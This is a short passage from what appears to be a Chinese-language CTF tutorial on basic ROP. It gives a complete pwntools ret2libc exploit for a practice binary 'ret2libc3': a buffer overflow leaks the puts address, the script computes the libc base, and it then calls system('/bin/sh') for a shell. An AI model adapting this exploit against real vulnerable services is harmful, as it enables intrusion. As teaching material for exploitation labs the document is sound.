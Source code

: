 ![](/BasicROP.assets/ret2libc3.png)

编写脚本
```python
#!coding:utf-8
from pwn import *

p=process("./ret2libc3")
elf=ELF("./ret2libc3")
libc=ELF("./libc.so")

puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main_addr=elf.symbols['_start']

# 泄露puts_got 并控制程序返回到_start，再次执行程序
payload='a'*112
payload+=p32(puts_plt)+p32(main_addr)+p32(puts_got)
p.sendlineafter('Can you find it !?', payload)

# 获取puts_got 
puts_addr=u32(p.recv()[0:4]) 
print("puts_addr: ",hex(puts_addr))

# 计算基址，获取偏移
libc_base = puts_addr-libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_addr = libc_base + libc.search("/bin/sh").next()

# getshell
payload='a'*112
payload+=p32(system_addr)+'aaaa'+p32(bin_addr)

p.sendline(payload)
p.interactive()
```
注：GitHub给的libc.so版本不对，建议去[libc.blukat.me](https://libc.blukat.me/)查询
